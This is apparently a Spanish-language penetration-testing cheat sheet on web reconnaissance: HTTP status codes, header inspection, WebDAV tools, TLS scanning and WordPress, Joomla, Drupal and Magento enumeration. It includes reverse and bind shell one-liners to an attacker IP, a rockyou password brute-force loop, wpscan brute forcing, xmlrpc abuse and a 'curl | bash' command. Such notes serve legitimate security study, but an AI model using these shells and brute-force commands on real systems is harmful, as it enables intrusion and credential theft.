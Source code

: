 # HTTP 

Tags: #Web #Reconocimiento #Escaneo #CMS #Comandos #HTTP #HTTPS #WordPress #Joomla #Drupal #Magento #Apache #HTTP3 

## Códigos de estado 
* 200 -> OK
- 301 -> Moved Permanently (Follow Redirect)
- 401 -> Unauthorized
- 403 -> Forbidden
- 404 -> Not Found

## URL-Encode
* & = %26

❯ **Ctrl + u** Para ver el código fuente de la pagina web
❯ **Ctrl + r** Recargar la pagina web
❯ **Ctrl + Shift + c** Para inspeccionar el código 
❯ **Ctrl + Click-Izquierdo** Abrimos el enlace en otra pestaña

```bash
❯ http ❮IP❯                            # Podemos ver las cabeceras 
```

```bash 
❯ browsh --startup-url http://IP/Default.aspx/    # Enumeracion del buscador de un IIS en fomra de GUI
❯ browsh --startup-url <IP>                       # Enumeracion del buscador de un Apache en fomra de GUI
```

```bash 
❯ lynx http://IP                                  # Enumeracion del buscador en fomra de GUI
```

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

```bash
❯ whatweb ❮http://IP:PORT❯             # Nos dara una breve descripcion del gestor de contenidos por un puerto especifico
```

```bash
❯ whatweb ❮http://❮IP❯ -v

	# v = Miramos las cabeceras de la pagina web, las cuales aveces nos revelan cosas
```

```bash 
❯ wig ❮http://❮IP❯                     # Web Information Gathered, nos reporta las versiones de los servicios en la web
```

```bash
❯ curl ❮IP❯ | bash                     # Lo que hace Curl es obtener un index.html del servidor y despues con el bash haremos que nos interprete la data en bash

❯ curl ❮IP❯ | more       

❯ curl http://IP/cgi-bin/ | more       # Miramos las cabeceras de ese directorio
```

```bash
❯ curl -s -X GET http://❮IP❯ -I        # Miramos las cabeceras de respuesta de la pagina web 

	# I = i mayuscula
	# s = silence
```

```bash 
❯ wget "http://IP/index"               # Obtenemos el archivo index 'descargamos'
```

```bash 
❯ davtest -url http://127.0.0.1 -auth admin:admin     # Debemos de tener el usuario y passwd validos para poder usar la tool

	# 1er admin = Usuario 
	# 2do admin = passwd

❯ cat /usr/share/wordlists/rockyou.txt | while read password; do response=$(davtest -url http://127.0.0.1 -auth admin:$password 2>&1 | grep -i succed); if [ $response ]; then echo "[+] La passwd correcta es: $password"; break; fi; done

# Ataque de Fuerza Bruta para encontrar la passwd con el comando davtest

❯ cadaver http://127.0.0.1     # Sirve para subir archivos, descargar contenido, etc... Debemos de tener el usaurio y passwd validos para la autenticacion 
	❯ mkdri test              # Podriamos crearnos dir en los cuales podemos colocar un recurso 
	❯ cd test 
	❯ put webdav.txt          # Podemos subir un archivo 
```

## ReverShell y BindShell
Este comando lo ejecutamos desde la pagina web para hacer una **ReverShell** : 
1) Cuando tenemos Netcat 
2) Cuando no tenemos Netcat
```bash 
❯ nc -e /bin/bash IP-Atacante 443

❯ bash -i >& /dev/tcp/IP-Atacante/443 0>&1
```

```bash
❯ nc -nlvp 443 -e /bin/bash              # Ejecutamos desde la pagina web para ponernos en escucha y hacer una **BindShell** :
```


# HTTPS 
443 - Este puerto es también para la navegación web, pero en este caso usa el protocolo HTTPS que es seguro y utiliza el protocolo TLS por debajo.

```bash
❯ openssl s_client -connect ❮IP❯:443     # Para conectarnos al openssl e inspeccionar el certificado del puerto 443
```

```bash
❯ sslscan ❮IP❯:8443                      # Te da informacion del ssl de la maquina y si detecta alguna vulnerabilidad te la representa, podemos colocar el puerto si no es el comun 443
```

# HTTP3
* HTTP3 es la próxima y tercera versión principal del Protocolo de Transferencia de Hipertexto utilizado para intercambiar información en la World Wide Web, que sucederá a HTTP/2. HTTP/3 es un borrador basado en un RFC anterior, entonces nombrado "Protocolo de Transferencia de Hipertexto sobre QUIC". 
	* Protocolo **UDP**
	* [HTTP3-QUIC](https://github.com/cloudflare/quiche)
* Para poder usar la herramienta de arriba debemos de instalar lo siguiente:
	* [Rush](https://github.com/rust-lang/rustup/issues/686)

```bash
# Ruta para poder ejecutar el http3-client /home/user/quiche/target/debug/examples

❯ ./http3-client ❮https://127.0.0.1❯
```

## Rutas típicas de Apache en la web 

```python
/admin                              # Muestra informacion 'sensible' 
/phpinfo.php                        # Informacion del php
```

## Rutas típicas de WordPress en la web 

```python
/wp-login.php                        # Es la ruta del panel de autenticación 
/wordpress/wp-login.php
/wp-admin.php                        # Es la ruta del panel de autenticación de admin
/wp-json/wp/v2/users/                # Reporta usuarios validos en la pagina de WordPress en formato Json
/wp-content/plugins                  # Para ver si podemos hacer directory listing y ver los plugins existentes
```

## Rutas típicas en la consola

```python
/var/www/html                        # Ruta de Apache o Nginx
/etc/apache2/sites-enabled/          # Ruta de Apache
/opt/blog/server.js                  # Ruta por default de Node.js

wordpress.conf                       # Archivo que nos muestra donde esta configurado el WordPress y se encuentra en la ruta /etc/apache2/sites-enabled/ 
wp-config.php                        # Archivo que dispone de credenciales de acceso a la base de datos, se encuentra en la ruta /var/www/html, a veces esta en la ruta /usr/share/wordpress/
```

## WordPress Enumeración 

Formas de **Enumerar**
* **Usuarios** que aparezcan en la pagina Web, podemos validarlos en el panel de autenticación **Admin**

```bash
❯ wpscan --url ❮http://IP/❯                               # Detecta vulnerabilidades en un wordPress
```

```bash
❯ wpscan --url <http://URL/> -e u,vp                                          # Enumeracion 

	# u = Enumerar usuarios
	# vp = Enumerar plugins vulnerables

❯ wpscan --url http://URL/ --passwords /usr/share/wordlists/rockyou.txt       # BruteForce

	# passwords = Enumerar passwords

❯ wpscan --url <http://URL/> -e u,vp --plugins-detection aggressive           # Enumeracion de plugins de manera agresiva 
	
	# plugins-detection = Enumeracion de plugins (mixed, passive, aggressive)
```

El **API Token** lo podemos descargar registrándonos desde la siguiente url:
* [API-Token](https://wpscan.com/register)

```bash
❯ wpscan --url <http://URL/> -e vp --api-token="DFFGB15GD68DG618GD81GRD"     # Enumeracion 

	# vp = Enumerar plugins vulnerables
	# api-token = Nos representa de mejor manera las vulnerabilidades con el API Token
```

```bash
❯ wpscan --url <http://IP/> -U <USER> -P /usr/share/wordlists/rockyou.txt # Fuerza bruta

	# P = Ruta del diccionario 
	# U = Usuario valido
```

```bash
❯ curl -s -X GET "http://IP/" | grep -oP 'plugins/\k[^/]+' | sort -u # Filtramos por plugins en la paggina web y ver si alguno es vulnerable, los podriamos buscar en Searchsploit

	# sort u = Quitar los resultados repetidos y dejar los 'unicos'
	# s = Modo silencioso 
```

**/xmlrpc.php** Si esta expuesto, podemos enumerar credenciales validas y solo acepta peticiones por **POST** y que este estructurada en **XML**
* Debemos de listar los metodos y lo haremos con el codigo del archivo y ver si existe el siguiente **getUsersBlogs** y despues aplicar fuerza bruta
* [Xmlrpc-Abuse](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/)
```bash
❯ curl -s -X POST "http://IP/xmlrpc.php" -d@file.xml

	# d@ = Indicamos el archivo que usaremos y es que esta abajo 
```

```bash
❯ nano file.xml

	<?xml version="1.0" encoding="utf-8"?> 
	<methodCall> 
	<methodName>system.listMethods</methodName> 
	<params></params> 
	</methodCall>
```


## Joomla Enumeración 

Esta herramienta ademas de enumerar un servidor Joomla, nos crea un reporte de las vulnerabilidades que encontro.
**/administrator** Es la ruta del panel de autenticacion de admin

```bash 
❯ perl joomscan.pl -u http://IP/
```

## Drupal Enumeración 

Esta herramienta además de enumerar un servidor Drupal

```bash 
❯  droopescan scan drupal --url https://IP/
```

## Magento Enumeración 

Esta herramienta ademas de enumerar un servidor Magento
**/administration/admin/index** Es la ruta del panel de autenticacion de admin

```bash 
❯  php magescan.phar scan:all https://IP/
```